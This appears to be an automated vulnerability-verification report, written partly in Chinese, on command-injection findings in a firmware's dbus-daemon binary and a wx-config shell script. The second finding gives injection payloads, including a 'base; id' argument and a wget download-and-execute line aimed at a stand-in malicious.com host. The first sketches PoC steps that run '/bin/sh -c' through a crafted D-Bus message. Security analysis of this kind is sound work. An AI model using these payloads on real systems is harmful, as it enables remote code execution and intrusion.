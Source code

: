   ```
  
  In fcn.0000c2f4, the call to fcn.0003e3a4:
      iVar11 = fcn.0003e3a4(piVar4 + 7, *(puVar16 + -8), iVar2, 0);
  
  Where *(puVar16 + -8) is set by fcn.0003c14c based on D-Bus message content.
  ```

### Verification Conclusion
- **Description Accuracy:** `accurate`
- **Is a Real Vulnerability:** `True`
- **Risk Level:** `High`
- **Detailed Reason:** 通过分析usr/bin/dbus-daemon二进制文件，验证了安全警报的描述。在函数fcn.0003e3a4（地址0x3e654）中，确实调用了execve系统调用，其第一个参数（执行路径）来自用户控制的输入。输入源自D-Bus消息，通过函数fcn.0000c2f4处理并传递给fcn.0003e3a4。代码中缺乏对输入的验证或清理，导致命令注入漏洞。攻击者可以通过发送恶意D-Bus消息控制execve的参数，执行任意命令。由于D-Bus守护进程通常以高权限（如root）运行，且攻击者已拥有有效登录凭据，漏洞实际可利用。

可重现的攻击载荷或PoC步骤：
1. 攻击者构造一个恶意D-Bus消息，指定服务激活请求，其中可执行路径字段被设置为任意命令（例如：/bin/sh -c 'malicious_command'）。
2. 发送该消息到D-Bus系统总线，触发服务激活流程。
3. 消息被fcn.0000c2f4处理，提取可执行路径并传递给fcn.0003e3a4。
4. fcn.0003e3a4调用execve执行恶意命令，导致任意代码执行。

### Verification Metrics
- **Verification Duration:** 225.42 seconds
- **Token Usage:** 398290

---

## Untitled Finding to Verify

### Original Information
- **File/Directory Path:** `lib/wx/config/inplace-arm-linux-base-unicode-release-2.8`
- **Location:** `在 'arm-linux-base-unicode-release-2.8' 脚本的 lib_flags_for 函数中，具体在 eval 使用处。`
- **Description:** 攻击链：攻击者通过命令行参数提供恶意库名（例如 'base; id'）-> 参数被解析并存储在 $input_parameters 中 -> 在处理 --libs 选项时，调用 lib_flags_for 函数 -> 该函数使用 eval 处理库名，导致命令注入。触发条件：当脚本被调用并带有 --libs 选项和恶意库名时。可利用性分析：由于缺少输入验证和清理，eval 直接执行用户提供的命令，允许任意命令执行。
- **Code Snippet:**
  ```
  for lib do
      for f in $(eval echo "\\\$ldflags_$lib"); do
          match_field "$f" $_all_ldflags || _all_ldflags="$_all_ldflags $f"
      done
  done
  ```

### Verification Conclusion
- **Description Accuracy:** `accurate`
- **Is a Real Vulnerability:** `True`
- **Risk Level:** `High`
- **Detailed Reason:** 安全警报准确描述了命令注入漏洞。证据来自文件 'lib/wx/config/arm-linux-base-unicode-release-2.8' 中的 lib_flags_for 函数。具体代码片段为：for lib do; for f in $(eval echo "\\\$ldflags_$lib"); do; ... done; done。攻击链完整：攻击者通过命令行参数提供恶意库名（如 'base; id'）-> 参数被解析并存储在 $input_parameters 中 -> 处理 --libs 选项时调用 lib_flags_for 函数 -> eval 直接执行用户提供的命令，导致命令注入。输入可控（命令行参数）、路径可达（--libs 选项触发）、实际影响（任意命令执行）。漏洞可利用，因为攻击者（拥有有效登录凭据）可执行脚本。攻击载荷示例：运行 'wx-config --libs "base; id"' 将执行 'id' 命令；更恶意的载荷如 'wx-config --libs "base; wget http://malicious.com/script.sh -O /tmp/script.sh && sh /tmp/script.sh"' 可下载并执行远程脚本。
